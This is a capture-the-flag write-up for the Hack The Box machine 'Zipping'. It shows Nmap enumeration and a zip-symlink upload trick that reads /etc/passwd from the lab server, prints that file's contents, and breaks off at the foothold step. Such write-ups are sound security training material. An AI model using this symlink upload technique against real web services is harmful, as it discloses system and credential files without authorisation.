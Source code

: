 # HTB Machine Writeup: Zipping
### By: gnos1s

## Machine Difficulty: Medium
## Operating System: Linux

## Enumeration

As usual, we start off with our Nmap scan:

```
$ nmap -sC -sV -oA nmap/zipping 10.10.11.229
Nmap scan report for 10.10.11.229
Host is up (0.53s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 9d:6e:ec:02:2d:0f:6a:38:60:c6:aa:ac:1e:e0:c2:84 (ECDSA)
|_  256 eb:95:11:c7:a6:fa:ad:74:ab:a2:c5:f6:a4:02:18:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.54 ((Ubuntu))
|_http-server-header: Apache/2.4.54 (Ubuntu)
|_http-title: Zipping | Watch store
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Only ports 22 and 80 are open. Let's visit the website. It seems to be a "watch store":

![home](posts/HTB%20Machines/Zipping/assets/home.png)

All of the links on the top right don't lead to anything interesting, other than the shop and the "work with us". Let's check out the "work with us":

![upload](posts/HTB%20Machines/Zipping/assets/upload.png)

We can upload files, but it only allows PDF files inside a ZIP archive. We get an error if we try to upload anything else. Let's try uploading a PDF:

```
$ touch test.pdf
$ zip initial.zip test.pdf
```

Next, we can upload it:

![initial](initial.png)

Clicking on the link redirects us to the pdf we just uploaded. Now, let's think about how to exploit this.

## File Disclosure

After reading [this](https://book.hacktricks.xyz/pentesting-web/file-upload) article on HackTricks, from the "Zip/Tar File Automatically decompressed Upload", there actually is a way to use this file upload to get a file disclosure on the box. 

First, we have to create a symlink:

```
$ ln -s ../../../../../etc/passwd passwd.pdf
$ zip --symlinks passwd.zip passwd.pdf
  adding: passwd.txt (stored 0%)
```

Now, when we upload the file to the server, we can read the content of /etc/passwd on the box:

```
$ curl http://10.10.11.229/uploads/40e8ae53db79025eb8f9dfd4c282e35a/passwd.pdf
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:104:110:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
rektsu:x:1001:1001::/home/rektsu:/bin/bash
mysql:x:107:115:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:999:999::/var/log/laurel:/bin/false
```

This works because we created a symbolic link to /etc/passwd on the box. Although the filename is in .pdf format, it's not a pdf file; the operating system treats this file as a symlink. And since we have it linked to /etc/passwd, the webapp will go fetch the /etc/passwd file for us.

## Foothold

Now, we can use what the file disclosure to read the soruce code of the webapp. Let's try /var/www/html as the path to the site, and it works:

```

```
